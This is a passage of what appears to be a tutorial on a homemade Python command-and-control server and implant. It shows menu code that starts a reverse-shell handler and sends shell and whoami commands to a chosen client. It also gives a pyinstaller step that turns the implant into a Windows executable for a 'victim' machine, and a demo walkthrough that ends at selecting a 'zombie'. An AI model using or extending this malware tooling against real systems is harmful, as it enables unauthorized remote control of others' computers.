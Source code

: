 ```python
            #subprocess.call(["python", "testsocketserver.py"])
            exit_event.clear()

            handler_thread = threading.Thread(target=startrevshellsvr)
            handler_thread.daemon = True
            handler_thread.start()

            print("[+] starting shell in 2 seconds!")
            time.sleep(2)

            clientlist[selection][1].send(b":shell:\n")

            #handler_thread2 = threading.Thread(target=startrevshellcli)
            #handler_thread2.daemon = True
            #handler_thread2.start()
            while not exit_event.is_set():
                time.sleep(1)
            return
        if choice == "6":
            clientlist[selection][1].send(b":whoami:\n")
            whoami=clientlist[selection][1].recv(1024)
            whoami = whoami.decode('UTF-8')
            print("You are: ", whoami)
            time.sleep(2)

        if choice == "15":
            return
```

You may be thinking to yourself,"But...how can I get this to execute on a windows machine that isn't running python?"  It's a fair question!  I'm sure some folks will knock `pyinstaller`, but it does the job just fine.

> **pyinstaller --onefile --icon=icon.ico your_script.py**

Now you have an .exe that can be used without the need to have python installed.

***DEMO TIME!!! ⏲️***
-

**Start up the C2 server on your Linux (or Windows) box:**

![image](https://github.com/user-attachments/assets/25c9f790-3fd2-4acf-a973-776bda7996e7)

**Run the implant on the Windows OS (victim):**

![image](https://github.com/user-attachments/assets/271bf841-b2ff-4b48-8190-b278a162d510)

**We received a connection!**

![image](https://github.com/user-attachments/assets/7639c05e-2903-4ffb-8ea1-2a4bc0b7db6a)

**Select our zombie**
